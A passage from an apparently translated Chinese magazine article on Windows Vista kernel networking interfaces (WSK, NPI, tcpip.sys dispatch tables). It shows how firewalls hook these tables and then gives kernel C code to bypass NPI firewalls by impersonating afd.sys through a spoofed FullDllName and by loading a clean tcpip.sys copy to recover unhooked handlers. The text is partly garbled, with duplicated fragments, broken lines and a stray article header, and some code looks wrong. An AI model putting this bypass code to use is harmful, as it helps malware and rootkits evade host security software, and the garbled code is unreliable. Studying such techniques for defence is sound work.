  WskProAPIDisconnect,
  WskProAPIRelease
};

WSK_PROVIDER_LISTEN_DISPATCH for any kinds of listening sockets:
WSK_PROVIDER_LISTEN_DISPATCH WskProAPIListenSocketDispatch = {
  WskProAPIControlSocket,
  WskProAPICloseSocket,
  WskProAPIBind,
  WskProAPIAccept,
  WskProAPIResume,
  WskProAPIGetLocalAddress
};
```

使用这些结构指针（被放置在 afd.sys 中），我们可以通过 hook 函数对发生在系统中的相应事件做出反应。下面我们看一个 WSK 客户端的例子：一个客户端通过 80 端口连接到 google.com，发送 GET 请求，并接收网络服务器的应答。假设我们已经调用了 `WskCaptureProviderNPI()` 函数，并且得到了关于 `WSK_PROVIDER_NPI` 结构的指针。首先，我们要通过使用 `WSK_PROVIDER_NPI.Dispatch->WskSocket()` 回调函数创建新的 Socket：

```c
static
NTSTATUS
MakeHttpRequest(
    __in PWSK_PROVIDER_NPI WskProvider,
    __in PSOCKADDR_IN LocalAddress,
    __in PSOCKADDR_IN RemoteAddress,
    __in PWSK_BUF HttpRequest,
    __out PWSK_BUF HttpResponse,
    __in PIRP Irp // can be reused
)
{
    KEVENT CompletionEvent = {0};
    PWSK_PROVIDER_CONNECTION_DISPATCH SocketDispatch = NULL;
    PWSK_SOCKET WskSocket = NULL;
    ...
    KeInitializeEvent(&CompletionEvent, SynchronizationEvent, FALSE);
    IoReuseIrp(Irp, STATUS_UNSUCCESSFUL);
    IoSetCompletionRoutine(Irp, CompletionRoutine, &CompletionEvent, TRUE, TRUE, TRUE);

    Status = WskProvider->Dispatch->WskSocket(
        WskProvider->Client,
        AF_INET,
        SOCK_STREAM,
        IPPROTO_TCP,
        WSK_FLAG_CONNECTION_SOCKET,
        NULL,
        NULL,
        NULL,
        NULL,
        Irp);

    if (Status == STATUS_PENDING) {
        KeWaitForSingleObject(&CompletionEvent, Executive, KernelMode, FALSE, NULL);
        Status = Irp->IoStatus.Status;
    }

    if (!NT_SUCCESS(Status)) {
        DbgPrint("MakeHttpRequest(): WskSocket() failed with status 0x%08X\n", Status);
        return Status;
    }

    WskSocket = (PWSK_SOCKET)Irp->IoStatus.Information;
    SocketDispatch = (PWSK_PROVIDER_CONNECTION_DISPATCH)WskSocket->Dispatch;
    ...
}
```

正如我们所看到的，`WskSocket()` 需要 IRP 指针。IRP 可以被多次使用，我们使用 `IoReuseIrp()` 函数对 IRP 进行重用。正如前面提到的，WSK 是无阻塞的，从而让 `WskSocket()` 可以返回 `STATUS_PENDING`。在这种情况下，我们应该等待 `WskSocket()` 调用完成。完成事件将使用 `CompletionRoutine()` 函数产生相应的信号。这个事件的指针被传递给 `IoSetCompletionRoutine()` 调用：

```c
NTSTATUS
NTAPI
CompletionRoutine(
    __in PDEVICE_OBJECT DeviceObject,
    __in PIRP Irp,
    __in PKEVENT CompletionEvent
)
{
    ASSERT(CompletionEvent);
    KeSetEvent(CompletionEvent, IO_NO_INCREMENT, FALSE);
    return STATUS_MORE_PROCESSING_REQUIRED;
}
```

当 Socket 已经成功创建，我们必须将其绑定到本地地址，因为 TCP/IP 堆栈需要使用它进行网络接口的选择。在 BSD Socket 中，我们不必这么做，但是 `WskConnect()` 调用将会失败，除非我们调用 `WskBind()` 进行绑定。我们可以使用 `INADDR_ANY` 作为本地地址，`WskBind()` 是允许的：

```c
LocalAddress.sin_family = AF_INET;
LocalAddress.sin_addr.s_addr = INADDR_ANY;
LocalAddress.sin_port = 0;

Status = SocketDispatch->WskBind(
    WskSocket,
    (PSOCKADDR)&LocalAddress,
    0,
    Irp);

if (Status == STATUS_PENDING) {
    KeWaitForSingleObject(&CompletionEvent, Executive, KernelMode, FALSE, NULL);
    Status = Irp->IoStatus.Status;
}

if (!NT_SUCCESS(Status)) {
    DbgPrint("MakeHttpRequest(): WskBind() failed with status 0x%08X\n", Status);
    CloseWskSocket(SocketDispatch, WskSocket);
    return Status;
}

// Connect to the destination host:
RemoteAddress.sin_family = AF_INET;
RemoteAddress.sin_addr.s_addr = HOST_ADDRESS;
RemoteAddress.sin_port = HTONS(HOST_PORT);

Status = SocketDispatch->WskConnect(
    WskSocket,
    (PSOCKADDR)RemoteAddress,
    0,
    Irp);

if (Status == STATUS_PENDING) {
    KeWaitForSingleObject(&CompletionEvent, Executive, KernelMode, FALSE, NULL);
    Status = Irp->IoStatus.Status;
}

if (!NT_SUCCESS(Status)) {
    DbgPrint("MakeHttpRequest(): WskConnect() failed with status 0x%08X\n", Status);
    CloseWskSocket(SocketDispatch, WskSocket);
    return Status;
}
```

其实，我们不必调用所有这些 `WskSocket()`、`WskBind()`、`WskConnect()` 回调函数，如果我们只需要通过 TCP 连接到目标主机，可以使用 `WskSocketConnect()`，它可以执行前面提到的所有操作。下一步进行 HTTP 请求的发送：

```c
Status = SocketDispatch->WskSend(
    WskSocket,
    HttpRequest,
    0,
    Irp);
if (Status == STATUS_PENDING) {
    KeWaitForSingleObject(&CompletionEvent, Executive, KernelMode, FALSE, NULL);
    Status = Irp->IoStatus.Status;
}
if (!NT_SUCCESS(Status)) {
    DbgPrint("MakeHttpRequest(): WskSend() failed with status 0x%08X\n", Status);
    CloseWskSocket(SocketDispatch, WskSocket);
    return Status;
}

// Receive the web-server's answer
Status = SocketDispatch->WskReceive(
    WskSocket,
    &WskBuffer,
    0,
    Irp);
if (Status == STATUS_PENDING) {
    KeWaitForSingleObject(&CompletionEvent, Executive, KernelMode, FALSE, NULL);
    Status = Irp->IoStatus.Status;
}
if (!NT_SUCCESS(Status)) {
    DbgPrint("ReceiveHttpResponse(): WskReceive() failed with status 0x%08X\n", Status);
    break;
}

// The socket closing function does its job
Status = SocketDispatch->WskCloseSocket(WskSocket, Irp);
if (Status == STATUS_PENDING) {
    KeWaitForSingleObject(&CompletionEvent, Executive, KernelMode, FALSE, NULL);
    Status = Irp->IoStatus.Status;
}
if (!NT_SUCCESS(Status)) {
    DbgPrint("CloseWskSocket(): WskCloseSocket() failed with status 0x%08X\n", Status);
}

// WskCloseSocket() is a non-blocking function, too...
MakeHttpRequest(): Connecting to the 74.125.45.100:80...
MakeHttpRequest(): Connected, sending the request...
MakeHttpRequest(): 56 bytes of the request sent successfully.
MakeHttpRequest(): Receiving the answer...
MakeHttpRequest(): Received 497 bytes of data
==> google.com says that today is: Mon, 11 May 2009 11:51:27 GMT
...
```

##### NPI 的驱动组件

正如我前面提到的，NPI 取代了 TDI，并且 Windows Vista 使用 NPI 进行网络驱动程序的连通。在系统的早期版本中，`tcpip.sys` 被注册为 TDI 提供者，现在它转变为 NPI 提供者。NPI 的想法是 NPI 提供者注册一个函数的句柄集，使得 NPI 客户可以使用。我们在 `afd.sys` 中已经使用此想法，在 `tcpip.sys` 中将继续使用。我们想为一个 `tcpip.sys` 下的 NPI 客户注册，并且像我们在 WSK 中一样获得调度表指针。这将是很酷的，因为如果我们 hook 到那些函数，就可以控制系统的网络通信，但并不是所有的通信，而只是 Windows 的 TCP/IP 栈网络的通信。首先，我们来看看 `netio.sys` 的内部结构，先介绍下我们特别感兴趣的 `NmrRegisterProvider()` 和 `NmrRegisterClient()` 函数：

```c
#define PROVIDER_MODULE 2
#define CLIENT_MODULE 1
NTSTATUS NmrRegisterProvider(
    PNPI_PROVIDER_CHARACTERISTICS ProviderCharacteristics,
    PVOID ProviderContext,
    PHANDLE NmrProviderHandle
)
{
    NTSTATUS Status;
    HANDLE hProvider;

    Status = NmrpVerifyModule(_ReturnAddress(), FALSE, ProviderCharacteristics);
    if (NT_SUCCESS(Status)) {
        Status = NmrpRegisterModule(PROVIDER_MODULE, ProviderCharacteristics, ProviderContext, &hProvider);
        if (NT_SUCCESS(Status))
            *NmrProviderHandle = hProvider;
    }
    return Status;
}

NTSTATUS NmrRegisterClient(
    PNPI_CLIENT_CHARACTERISTICS ClientCharacteristics,
    PVOID ClientContext,
    PHANDLE NmrClientHandle
)
{
    NTSTATUS Status;
    HANDLE hClient;

    Status = NmrpVerifyModule(_ReturnAddress(), TRUE, ClientCharacteristics);
    if (NT_SUCCESS(Status)) {
        Status = NmrpRegisterModule(CLIENT_MODULE, ClientCharacteristics, ClientContext, &hClient);
        if (NT_SUCCESS(Status))
            *NmrClientHandle = hClient;
    }
    return Status;
}
```

我们发现 `NmrpVerifyModule()` 是十分有趣的，这个函数关注着返回地址、`ProviderDetachClient`、`ClientAttachProvider/ClientDetachProvider` 指针和 `NPIID` 结构的指针。首先，函数将 `NPI_REGISTRATION_INSTANCE.NpiId` 域和 `NPI_TRANSPORT_LAYER_ID`、`NPI_WSK_INTERFACE_ID` 和 `NPI_CCM_INTERFACE_ID` 比较。如果 `NPIID` 中有一项等于上述的一项，那么 `NmrpVerifyModule()` 将调用 `ZwQuerySystemInformation()` 来获取当前加载的内核模块列表，然后试图找到一个返回地址拥有者的驱动。如果此函数发现存在这样的驱动，它将比较 `ProviderDetachClient()/ClientDetachProvider()` 的指针，判断它们是否属于这个驱动。最后，`NmrpVerifyModule()` 比较驱动模块的路径是不是等于“`\systemroot\system32\drivers\afd.sys`”、“`\systemroot\system32\drivers\tdx.sys`”或“`\systemroot\system32\drivers\tcpip.sys`”。如果是，该函数将允许提供者/客户端与此 `NPIID` 进行注册。

经过研究 `NmrpVerifyModule()/NmrpRegisterModule()` 函数，我们得到如下几点结论：

- 只有 `afd.sys` 可以注册为 WSK 提供者（`NpiId = NPI_WSK_INTERFACE_ID`）。
- 任何驱动程序都可以注册为 WSK 客户端（`NpiId = NPI_WSK_INTERFACE_ID`）。
- 只有 `tcpip.sys` 可以注册为传输层提供者（`NpiId = NPI_TRANSPORT_LAYER_ID`）。
- 只有 `tdx.sys` 或 `afd.sys` 可以注册为传输层客户端（`NpiId = NPI_TRANSPORT_LAYER_ID`）。

上述 `tdx.sys` 是一个传统驱动的 TDI 提供者，在未来微软将会摆脱它。因此，自从 `tcpip.sys` 工作在 NPI 上，以及所有的 `tcpip.sys` 和 `tdx.sys/afd.sys` 之间的连通也工作在 NPI 上时，hook 建立在这些之上来截取应用的所有请求将是一个不错的想法。`tcpip.sys` 中的驱动程序调用 `NmrRegisterProvider()` 函数将自己注册成为一个传输层的提供者：

```c
NTSTATUS TcpStartConfigModule()
{
    NTSTATUS Status;
    Status = InetStartNsiProvider(&TcpInetTransport,
                                  &TcpNsiInterfaceDispatch);
    if (!NT_SUCCESS(Status)) {
        ...
    }
    return Status;
}

NTSTATUS UdpStartConfigModule()
{
    NTSTATUS Status;
    Status = InetStartNsiProvider(&UdpInetTransport,
                                  &UdpNsiInterfaceDispatch);
    if (!NT_SUCCESS(Status)) {
        ...
    }
    return Status;
}

NTSTATUS RawStartConfigModule()
{
    NTSTATUS Status;
    ...
}
```

```c
Status = InetStartNsiProvider(&RawInetTransport,
                              &RawNsiInterfaceDispatch);
if (!NT_SUCCESS(Status)) {
    ...
}
return Status;
```

所以，既然 `tcpip.sys` 是一个 NPI 提供者，为了保证 `NmrRegisterProvider()` 函数的每个调用，它必须包含先前所描述的 `NPI_MODULEID`。在这里，我们是直接从 `tcpip.sys` 给出约定。

```c
NPI_MODULEID NPI_MS_TCP_MODULEID = {
    sizeof(NPI_MODULEID),
    MIT_GUID,
    {0xEB004A03, 0x9B1A, 0x11D4,
     {0x91,0x23,0x00,0x50,0x04,0x77,0x59,0xBC}}
};

NPI_MODULEID NPI_MS_UDP_MODULEID = {
    sizeof(NPI_MODULEID),
    MIT_GUID,
    {0xEB004A02, 0x9B1A, 0x11D4,
     {0x91,0x23,0x00,0x50,0x04,0x77,0x59,0xBC}}
};

NPI_MODULEID NPI_MS_RAW_MODULEID = {
    sizeof(NPI_MODULEID),
    MIT_GUID,
    {0xEB004A07, 0x9B1A, 0x11D4,
     {0x91,0x23,0x00,0x50,0x04,0x77,0x59,0xBC}}
};
```

`TcpInetTransport`、`UdpInetTransport`、`RawInetTransport`、`TcpNsiInterfaceDispatch`、`UdpNsiInterfaceDispatch` 和 `RawNsiInterfaceDispatch` 变量由什么组成的呢？首先，`TcpInetTransport`、`UdpInetTransport` 和 `RawInetTransport` 变量被函数 `TcpStartInetModule()`、`UdpStartInetModule()` 和 `RawStartInetModule()` 分别填充。`XxxInetTransport` 变量由一些内部结构进行定义，我们不会找到任何域名或偏移量。这其实并不重要，这些变量指向相应 `NPI_MODULEID` 结构，如 `NPI_MS_TCP_MODULEID`、`NPI_MS_UDP_MODULEID`、`NPI_MS_RAW_MODULEID`。

- 面向 TCP 提供者：`TcpInitializeAf()`、`TcpCleanupAf()`、`TcpDetachAf()`。
- 面向 UDP 提供者：`UdpInitializeAf()`、`UdpCleanupAf()`。
- 面向 Raw IP 提供者：`RawInitializeAf()`、`RawCleanupAf()`。
- 面向其他协议：`RawInitializeClient()` 和 `RawNlClientAddInterface()`。

`XxxNsiInterfaceDispatch` 仅仅是相应的 `XxxInetTransport` 变量一部分。在提供者初始化和注册之后，函数 `InetStartIPProviderTransport()` 将被调用。`InetStartIPProviderTransport()` 运行内部模块：`TcpStartProviderModule()`、`UdpStartProviderModule()` 和 `RawStartProviderModule()`。

##### 传输层提供者注册与调度表

```c
NTSTATUS TcpStartProviderModule()
{
    NTSTATUS Status;
    Status = InetStartTlProviderTransport(
        &TcpInetTransport, sizeof(...), &TcpTlProviderCharacteristics, &TcpTlProviderDispatch);
    if (!NT_SUCCESS(Status)) {
        ...
    }
    return Status;
}

NTSTATUS UdpStartProviderModule()
{
    NTSTATUS Status;
    Status = InetStartTlProviderTransport(
        &UdpInetTransport, sizeof(...), &UdpTlProviderCharacteristics, &UdpTlProviderDispatch);
    if (!NT_SUCCESS(Status)) {
        ...
    }
    return Status;
}

NTSTATUS RawStartProviderModule()
{
    NTSTATUS Status;
    Status = InetStartTlProviderTransport(
        &UdpInetTransport, sizeof(...), &UdpTlProviderCharacteristics, &UdpTlProviderDispatch);
    if (!NT_SUCCESS(Status)) {
        ...
    }
    return Status;
}
```

InetStartTlProviderTransport() 根据其 Provider Characteristics 结构调用 NprRegisterProvider() 函数。

```c
NPIID NPI_TRANSPORT_LAYER_ID = {
    0x2227E804, 0x89B8, 0x11D4, {0xAB, 0xAD, 0x00, 0x90, 0x27, 0x71, 0x9E, 0x09}
};

NPI_PROVIDER_CHARACTERISTICS InetTlProviderNotify = {
    0,
    sizeof(NPI_PROVIDER_CHARACTERISTICS),
    InetTlNotifyAttachClient,
    InetTlNotifyDetachClient,
    WfpAlepPeerInformationFree,
    {0, sizeof(NPI_REGISTRATION_INSTANCE), &NPI_TRANSPORT_LAYER_ID, 0, NULL}
};
```

正如我们看到的，tcpip.sys 没有使用真正指向回调函数的指针来注册提供者，它使用本身的回调函数，将 XxxTlProviderCharacteristics 和 XxxTlProviderDispatch 存储到 XxxInetTransport 结构中，并且当分离或清除等事件发生时，它将从存储的区域返回调度表的指针。有几种 XxxTlProviderXxxDispatch 调度表可以在传输层提供者（tcpip.sys 中）和传输层客户端（afd.sys/tdx.sys）之间进行连通：

```c
// TCP 回调
PVOID TcpTlProviderDispatch[8] = {
    TcpTlProviderIoControl,
    TlDefaultRequestQueryDispatch,
    TcpTlProviderEndpoint,
    TlDefaultRequestMessage,
    TcpTlProviderListen,
    TcpTlProviderConnect,
    TcpTlProviderReleaseIndicationList,
    TcpTlProviderCancel
};
```

```c
TlDefaultRequestQueryDispatch,
TcpTlProviderEndpoint,
TlDefaultRequestMessage,
TcpTlProviderListen,
TcpTlProviderConnect,
TcpTlProviderReleaseIndicationList,
TcpTlProviderCancel

PVOID TcpTlProviderEndpointDispatch[3] = {
    TcpTlEndpointCloseEndpoint,
    TcpTlEndpointIoControlEndpoint,
    TlDefaultRequestQueryDispatchEndpoint
};

PVOID TcpTlProviderListenDispatch[4] = {
    TcpTlListenerCloseEndpoint,
    TcpTlListenerIoControlEndpoint,
    TlDefaultRequestQueryDispatchEndpoint,
    TcpTlListenerResumeConnection
};

PVOID TcpTlProviderConnectDispatch[6] = {
    TcpTlConnectionCloseEndpoint,
    TcpTlConnectionIoControlEndpoint,
    TlDefaultRequestQueryDispatchEndpoint,
    TcpTlConnectionSend,
    TcpTlConnectionReceive,
    TcpTlConnectionDisconnect
};

// UDP 回调
PVOID UdpTlProviderDispatch[8] = {
    UdpTlProviderIoControl,
    TlDefaultRequestQueryDispatch,
    UdpTlProviderEndpoint,
    UdpTlProviderMessage,
    TlDefaultRequestListen,
    TlDefaultRequestConnect,
    RawTlProviderReleaseIndicationList,
    TlDefaultRequestCancel
};

PVOID UdpTlProviderEndpointDispatch[3] = {
    UdpTlProviderCloseEndpoint,
    UdpTlProviderIoControlEndpoint,
    TlDefaultRequestQueryDispatchEndpoint
};

PVOID UdpTlProviderMessageDispatch[4] = {
    UdpTlProviderCloseEndpoint,
    UdpTlProviderIoControlEndpoint,
    TlDefaultRequestQueryDispatchEndpoint,
    UdpTlProviderSendMessages
};

// Raw IP 回调
PVOID RawTlProviderDispatch[8] = {
    TlDefaultRequestIoControl,
    TlDefaultRequestQueryDispatch,
    RawTlProviderEndpoint,
    RawTlProviderMessage,
    TlDefaultRequestListen,
    TlDefaultRequestConnect,
    RawTlProviderReleaseIndicationList,
    TlDefaultRequestCancel
};

PVOID RawTlProviderEndpointDispatch[3] = {
    RawTlProviderCloseEndpoint,
    RawTlProviderIoControlEndpoint,
    TlDefaultRequestQueryDispatchEndpoint
};

PVOID RawTlProviderMessageDispatch[4] = {
    RawTlProviderCloseEndpoint,
    RawTlProviderIoControlEndpoint,
    TlDefaultRequestQueryDispatchEndpoint,
    RawTlProviderSendMessages
};
```

我们没有解释为什么没有 ConnectDispatch 表属于 UDP 或 Raw IP 提供者。所有的 TlDefaultXxx() 函数只返回 STATUS_NOT_IMPLEMENTED。

当附加事件发生时，ProviderAttachClient() 被调用（在我们的例子中是 InetTlNotifyAttachClient() 函数）：

```c
NTSTATUS
ProviderAttachClient(
    IN HANDLE NmrBindingHandle,
    IN PVOID ProviderContext,
    IN PNP_REGISTRATION_INSTANCE ClientRegistrationInstance,
    IN PVOID ClientBindingContext,
    IN CONST VOID* ClientDispatch,
    OUT PVOID* ProviderBindingContext,
    OUT CONST VOID** ProviderDispatch
);


```

InetTlNotifyAttachClient() 返回一个 XxxTlProviderDispatch 表，现在提供者-客户端的连接就建立了，客户端就可以通过调度例程向提供者发出请求了。

前置知识：VC++

关键词：网络接口、协议、Windows Vista

##### Windows Vista/2008 网络编程接口的应用及挂钩
文/MaD 译/武云龙 党壮

在上篇文章中，我们已经实现提供者和客户端之间的连接，那么此时防火墙会有什么动作呢？防火墙只是简单地模仿 afd.sys 的行为——将自己注册为传输层的客户端，之后获得 XxxTlProviderXxxDispatch 表的指针并 Hook 其句柄。这里有两种问题必须避免：第一个问题是内部 tcpip.sys 交互接口没有公布，所以我们不得不由机器代码逆向推得；第二个问题是，如果不是 tdx.sys 或 afd.sys 的话，就不能连接到传输层的提供者。例如，Outpost Firewall 2008/2009 会建立一个桥接，它包含了一些结构体，这些结构体被存储在 afd.sys 没有使用的空间里。防火墙会把这个桥接放在区段之间或 PE 头里以绕过地址检测。下面是我们建立桥接的代码：

```asm
loc_1B59A:
movsxd  rax, edi
mov     ecx, 0FFFFFFF8h
lea     rdx, [rax+rax*4]
```

```asm
mov     r8d, [rbx+rdx*8+114h]
mov     r9d, [rbx+rdx*8+118h]
lea     rdx, aTextAddressXS ; "text address: %p ..."
add     r8, rsi
call    LogStub
...
call    cs:MmProbeAndLockPages
...
```

```asm
mov     [rsp+108h+var_E0], 20h
and     dword ptr [rsp+108h+var_E8], 0
call    cs:MmMapLockedPagesSpecifyCache
lea     rcx, [rsp+108h+var_C8]
mov     rdx, rax
mov     r8d, 0A8h
mov     rsi, rax
call    DoSomethingEv01
...
lea     rax, NmrRegisterClient
mov     byte ptr [rsi+1], 89h
mov     byte ptr [rsi+2], 44h
mov     byte ptr [rsi+3], 24h
...
lea     rax, ClientAttachAfd
lea     rcx, [rsi+60h]
mov     [rsi+41h], rax
...
lea     rax, WskClientDetach
mov     [rsi+4Fh], rax
...
call    DoSomethingEv01
lea     rcx, [rbx+60h]
lea     r8, [rsp+108h+var_D8]
xor     edx, edx
call    rbx
test    eax, eax
jns     short loc_1B76C
lea     rdx, aFailedRegister ; "failed register nmr client ..."
call    LogStub
jmp     short loc_1B776
```

```asm
call    qword ptr [rax]
add     rsp, 28h
ret
```

客户端要开始进行注册了，NmprVerifyModule() 函数判断 afd.sys 是否要连接到传输层的提供者。此时，Outpost 已经可以防御各种在用户模式下的恶意软件和一些使用 TDI 或 WSK 进行的网络互连的 Rootkit 攻击。下面我们看看执行过程：

```text
Waiting to reconnect...
Connected to Windows Vista 6001 x64 target, ptr64 TRUE
Kernel Debugger connection established.
Symbol search path is: D:\symbolsx64vista_sp1
Windows Vista Kernel Version 6001 (Service Pack 1) MP (1 procs) Free x64
Product: WinNt, suite: TerminalServer SingleUserTS
Built by: 6001.18000.amd64fre.longhorn_rtm.080118-1840
...
kd> lm m afw
start             end               module name
fffffa60`026d5000 fffffa60`02718000 afw
...
kd> dchking -ss .rdata -d -p E:\OSx64vista_sp1 tcpip
...
tcpip!RawTlProviderDispatch+10
...
tcpip!UdpTlProviderDispatch+10 (+0x178)
...
tcpip!TcpTlProviderDispatch+10 (+0x230)
```

以下是由上面的代码构建的桥接：

```asm
mov     qword ptr [rsp+18h], r8
mov     qword ptr [rsp+10h], rdx
mov     qword ptr [rsp+8], rcx
sub     rsp, 28h
mov     r8, qword ptr [rsp+40h]
mov     rdx, qword ptr [rsp+38h]
mov     rcx, qword ptr [rsp+30h]
mov     rax, offset afd!AfdTlErrorHandler
Connection+0x16b (...)
```

```text
[70 5b ec 00:40:45 6e 02]
... tcpip!TcpTlProviderDispatch+20 (+0x10)
... tcpip!TcpTlProviderDispatch+28 (+0x08)
... tcpip!TcpTlProviderDispatch+30 (+0x08)
... tcpip!TcpTlProviderEndpointDispatch (+0x08)
... tcpip!TcpTlProviderListenDispatch (+0x10)
... tcpip!TcpTlProviderConnectDispatch (+0x20)
...
92 errors : tcpip (...)
```

在 XxxTlProviderXxxDispatch() 表里存在 Hook。现在，我们需要做的就是解除 Hook，方法是只需加载 tcpip.sys 的副本进行镜像、修复重定位，最后重写 .rdata 区段。我们必须记住 .rdata 是一个只读区段，所以应在对这个表进行存储时对其处理。现在消除这些 Hook：

```text
kd> !chkimg -f -ss .rdata -p E:\OSx64\vista_sp1\tcpip
Warning: Any detected errors will be fixed to what we expect!
92 errors (fixed): tcpip (...)
```

破坏保护机制很简单，只需加载入内核空间即可。

##### 绕过 NPI 防火墙

现在我们知道如何 Hook 可以拦截并侦听所有的网络事件了。这些信息可以在保护软件中利用，也可在恶意软件中利用。下面我们将介绍如何获得分发表句柄和绕过 NPI 防火墙。

回过头来看看这项技术，使用在接到 NmrRegisterClient() 函数的桥接，将我们注册为传输层客户端。这项技术并不十分完美，因为我们不得不在内存中给系统驱动打补丁…………的时候工作正常，但一旦改变将会出现 BSOD；我们要为不同处理器结构建立不同的桥接函数。绕过 NPI 防火墙的代码被分为两部分：第一部分用来检索分发表的指针和原始表（没有被 Hook）的句柄；第二部分是使用真正的分发表重写分发表。通过执行代码的第一部分，我们可以获得 XxxTlProviderXxxDispatch 表，并且可以直接调用 tcpip.sys。

首先我们需要获得 XxxTlProviderXxxDispatch 表指针。不建立任何桥接，但我们打算利用 NmrRegisterClient() 或 NmprVerifyModule() 的某些特征。通过 NmprVerifyModule() 可以找到描述客户端模块的结构，然后查找这个模块的全路径（它应该为 "\systemroot\system32\drivers\afd.sys"、"\systemroot\system32\drivers\tdx.sys" 或 "\systemroot\system32\drivers\tcpip.sys"）。我们通过更换 LDR_DATA_TABLE_ENTRY 结构体的 FullDllName 域就可以调用 NmrRegisterClient() 函数了……

```c
NTSTATUS
NTAPI GetTcpipDispatchTables(
    __in  PLDR_DATA_TABLE_ENTRY DriverEntry,
    __out PTL_DISPATCH_TABLES   DispatchTables
);
```

这个函数在驱动程序的 DriverEntry() 中被调用，其参数会指向 LDR_DATA_TABLE_ENTRY 结构，它描述了驱动的模块。为了连接驱动，我们首先必须编写 NPI_CLIENT_CHARACTERISTICS 结构为其做准备：

```c
NPI_MODULEID FakeModuleId = {
    sizeof(NPI_MODULEID),
    MIT_GUID,
    {0x01020304, ...}
};

NPI_CLIENT_CHARACTERISTICS ClientChas = {
    0, sizeof(NPI_CLIENT_CHARACTERISTICS),
    FakeClientAttachProvider,
    FakeClientDetachProvider,
    NULL,
    {0, sizeof(NPI_REGISTRATION_INSTANCE),
     &NPI_TRANSPORT_LAYER_ID,
     &FakeModuleId,
     0, NULL}
};
```

NPI_TRANSPORT_LAYER_ID 的识别程序告诉 NMR，我们将要连接到传输层的提供者。在注册自己之前我们需要冒充 afd.sys，使得 NmprVerifyModule() 不会拒绝我们。

```c
UNICODE_STRING OriginalFullDllName = {0};
RtlCopyMemory(&OriginalFullDllName,
              &DriverEntry->FullDllName,
              sizeof(UNICODE_STRING));
RtlInitUnicodeString(&DriverEntry->FullDllName,
                     L"\\SystemRoot\\system32\\drivers\\afd.sys");
```

下面我们就可以注册了。

```c
Status = NmrRegisterClient(&ClientChars, Dispatches, &hClientHandle);
if (NT_SUCCESS(Status)) {
    NmrDeregisterClient(hClientHandle);
} else {
    DbgPrint("GetTcpipDispatchTables(): NmrRegisterClient() failed with status 0x%08X\n", Status);
}
```

我们会在调用 `NmrRegisterClient()` 函数后获得 `FullDllName` 域：

```c
RtlCopyMemory(&DriverEntry->FullDllName, &OriginalFullDllName, sizeof(UNICODE_STRING));
```

检索 `XxxTlProviderDispatch` 表指针的代码放在 `FakeClientAttachProvider` 中，我们将它看作 `NPI_CLIENT_CHARACTERISTICS` 结构的一部分。

```c
static
NTSTATUS
NTAPI
FakeClientAttachProvider(
    __in HANDLE NmrBindingHandle,
    __in PTL_DISPATCH_TABLES DispatchTables,
    __in PNPI_REGISTRATION_INSTANCE ProviderRegistrationInstance
)
```

这个函数将在 `NmrRegisterClient()` 调用后被 NMR 调用，功能是得到每个通过 NPIID 注册的 ModuleId（如 `NPI_MS_TCP_MODULEID`、`NPI_MS_UDP_MODULEID`、`NPI_MS_RAW_MODULEID`）。关于 NPIID 和 ModuleId 的信息将在 `ProviderRegistrationInstance` 中使用，所以需要检验它。

```c
if (!memcmp(ProviderRegistrationInstance->ModuleId, &NPI_MS_TCP_MODULEID, sizeof(NPI_MODULEID))) {
    ASSERT(!DispatchTables->TcpTlProviderDispatch);
    Status = NmrClientAttachProvider(..., &DispatchTables->TcpTlProviderDispatch);
}
else if (!memcmp(ProviderRegistrationInstance->ModuleId, &NPI_MS_UDP_MODULEID, sizeof(NPI_MODULEID))) {
    ASSERT(!DispatchTables->UdpTlProviderDispatch);
    Status = NmrClientAttachProvider(..., &DispatchTables->UdpTlProviderDispatch);
}
else if (!memcmp(ProviderRegistrationInstance->ModuleId, &NPI_MS_RAW_MODULEID, sizeof(NPI_MODULEID))) {
    ASSERT(!DispatchTables->RawTlProviderDispatch);
    Status = NmrClientAttachProvider(..., &DispatchTables->RawTlProviderDispatch);
}
```

为了获得 `XxxTlProviderDispatch` 表的指针，我们必须调用 `NmrClientAttachProvider()`；之后该函数调用 tcpip.sys 中的 `inetTlNotifyAttachClient()` 返回合适的分发表。为了获得 `XxxTlProviderXxxDispatch` 分发表的其他部分和真正的句柄，我们必须记住这些表的指针。

当获得了 `XxxTlProviderDispatch` 表后，我们将调用 `GetInternalTcpipDispatches()` 函数，获取 `XxxTlProviderXxxDispatch` 分发表的其他部分和真正句柄。文中说明攻击 NPI 防火墙的一种方式是加载 tcpip.sys 的副本并重写 `.rdata`，但需要隐蔽实施，因此采用逐步获取分发表及句柄的方法。

为了将 tcpip.sys 的副本加载到内存中，调用 `GetTcpip()` 函数，主要步骤包括：获取原始 tcpip.sys 镜像基址和大小、从硬盘加载副本、执行镜像并修复重定位。

```c
UNICODE_STRING TcpipDriverName = CONST_UNICODE_STRING(L"\\Driver\\tcpip");
UNICODE_STRING TcpipDriverPath = CONST_UNICODE_STRING(L"\\SystemRoot\\system32\\drivers\\tcpip.sys");
...
Status = GetDriverModuleInfo(&TcpipDriverName, &OriginalTcpip->Buffer, &OriginalTcpip->Size);
Status = GetFileData(&TcpipDriverPath, &FlatFile);
...
Status = MapImage(&FlatFile, LoadedTcpip);
FreeMemoryChunk(&FlatFile);
if (NT_SUCCESS(Status)) {
    KdPrint(("GetTcpip(): MapImage(%wZ) failed with status 0x%08X\n", &TcpipDriverPath, Status));
}
```

`MapImage()` 函数做了所有的脏工作——验证模块是否损坏，对模块的区段做镜像、修复重定位等。但我们不能使用这个模块运行代码来达到目的，因为模块镜像的内存空间是从分页机制中分配的；要想达到目的，必须把内存模式修改为无分页。

在 `GetInternalTcpipDispatchTables()` 将 tcpip.sys 加载到内存后，将使用 7 步检索这些表：

- 1. 获得 `TcpTlProviderDispatch`/`UdpTlProviderDispatch`/`RawTlProviderDispatch` 表没有被 Hook 的句柄。
- 2. 获得位于 tcpip.sys 中的 `TcpTlProviderEndpointDispatch`/`UdpTlProviderEndpointDispatch`/`RawTlProviderEndpointDispatch` 表。
- 3. 获得 `TcpTlProviderEndpointDispatch`/`UdpTlProviderEndpointDispatch`/`RawTlProviderEndpointDispatch` 表没有被 Hook 的句柄。
- 4. 获得位于 tcpip.sys 中的 `TcpTlProviderListenDispatch`/`TcpTlProviderConnectDispatch` 表。
- 5. 获得 `TcpTlProviderListenDispatch`/`TcpTlProviderConnectDispatch` 表没有被 Hook 的句柄。
- 6. 获得位于 tcpip.sys 中的 `UdpTlProviderMessageDispatch`/`RawTlProviderMessageDispatch` 表。
- 7. 获得 `UdpTlProviderMessageDispatch`/`RawTlProviderMessageDispatch` 表没有被 Hook 的句柄。

